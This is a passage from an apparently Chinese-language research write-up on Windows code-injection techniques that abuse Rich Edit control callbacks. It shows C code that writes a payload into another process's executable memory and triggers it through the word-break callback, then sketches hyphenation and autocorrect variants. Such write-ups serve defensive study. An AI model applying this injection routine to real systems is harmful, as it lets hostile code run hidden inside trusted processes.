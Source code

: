 ```
    GetWindowThreadProcessId(rew, &id);
 
    // 5. Try open the process.
    hp = OpenProcess(PROCESS_ALL_ACCESS, FALSE, id);
 
    // 6. Allocate RWX memory for the payload.
    cs = VirtualAllocEx(hp, NULL, payloadSize,
        MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 
    // 7. Write the payload to memory
    WriteProcessMemory(hp, cs, payload, payloadSize, &wr);
 
    // 8. Update the callback procedure
    SendMessage(rew, EM_SETWORDBREAKPROC, 0, (LPARAM)cs);
 
    // 9. Simulate keyboard input to trigger payload
    ip.type           = INPUT_KEYBOARD;
    ip.ki.wVk         = 'A';
    ip.ki.wScan       = 0;
    ip.ki.dwFlags     = 0;
    ip.ki.time        = 0;
    ip.ki.dwExtraInfo = 0;
   
    SetForegroundWindow(rew);
    SendInput(1, &ip, sizeof(ip));
 
    // 10. Restore original Wordwrap function (if any)
    SendMessage(rew, EM_SETWORDBREAKPROC, 0, (LPARAM)wwf);
   
    // 11. Free memory and close process handle
    VirtualFreeEx(hp, cs, 0, MEM_DECOMMIT | MEM_RELEASE);
    CloseHandle(hp);
}
```

**方法 2：Hyphentension**

```
typedef struct tagHyphenateInfo {
  SHORT cbSize;
  SHORT dxHyphenateZone;
  void((WCHAR *,LANGID, long,HYPHRESULT *) * )pfnHyphenate;
} HYPHENATEINFO;
```

可以通过发送带有指向 HYPHENATEINFO 结构的指针的 EM_GETHYPHENATEINFO 消息，来获取有关 Rich Edit 空间 Hyphenation 信息。但是，该方法假定指向结构的指针是本地内存，因此攻击者必须在使用 SendMessage 或 PostMessage 发送 EM_GETHYPHENATEINFO 之前，借助 VirtualAllocEx 为信息分配内存。在使用 EM_SETHYPHENATEINFO 之前，可能需要设置 Edit 空间的排版（Typography）选项。尽管我们无法使用写字板实现这一点，但我们推测，诸如 Microsoft Word 这样功能丰富的文字处理器应该是可行的。

**方法 3：AutoCourgette**

根据 MSDN 上提供的信息，EM_SETAUTOCORRECTPROC 消息所支持的客户端最低版本是 Windows 8，因此它是一个相对较新的功能。写字板显然不支持自动校正，所以我无法实现该方法的利用。像第二种方法 Hyphenation 一样，这种方法可能会适用于 Microsoft Word。
